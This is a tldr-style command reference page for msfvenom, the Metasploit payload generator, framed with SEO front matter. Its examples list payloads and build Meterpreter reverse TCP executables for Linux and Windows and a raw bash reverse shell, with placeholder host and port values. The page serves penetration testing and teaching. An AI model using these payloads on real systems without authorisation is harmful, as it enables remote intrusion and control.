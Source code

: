 ```yaml
---
title: "Generate Metasploit Payloads - Create Exploit Code | Online Free DevTools by Hexmos"
name: msfvenom
path: "/freedevtools/tldr/common/msfvenom/"
canonical: "https://hexmos.com/freedevtools/tldr/common/msfvenom/"
description: "Generate Metasploit payloads with msfvenom. Create reverse shells, executable files and raw code for penetration testing. Free online tool, no registration required."
category: common
keywords:
- metasploit payload generation
- reverse shell generator
- exploit code creation
- msfvenom payload creator
- linux payload generator
- windows executable generator
- raw shellcode generator
- penetration testing payloads
- reverse tcp payload
- msfvenom command line
features:
- Generate payloads for various operating systems
- Create reverse TCP shells for penetration testing
- Output payloads in multiple formats like ELF, EXE, and raw
- List available payloads and formats
- Customize payload options such as LHOST and LPORT
ogImage: "https://hexmos.com/freedevtools/site-banner.png"
twitterImage: "https://hexmos.com/freedevtools/site-banner.png"
---
```


# msfvenom

> Manually generate payloads for metasploit.
> More information: <https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html>.

- List payloads:

`msfvenom {{[-l|--list]}} payloads`

- List formats:

`msfvenom {{[-l|--list]}} formats`

- Show payload options:

`msfvenom {{[-p|--payload]}} {{payload}} --list-options`

- Create an ELF binary with a reverse TCP handler:

`msfvenom {{[-p|--payload]}} linux/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} {{[-f|--format]}} elf {{[-o|--out]}} {{path/to/binary}}`

- Create an EXE binary with a reverse TCP handler:

`msfvenom {{[-p|--payload]}} windows/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} {{[-f|--format]}} exe {{[-o|--out]}} {{path/to/binary.exe}}`

- Create a raw Bash with a reverse TCP handler:

`msfvenom {{[-p|--payload]}} cmd/unix/reverse_bash LHOST={{local_ip}} LPORT={{local_port}} {{[-f|--format]}} raw`
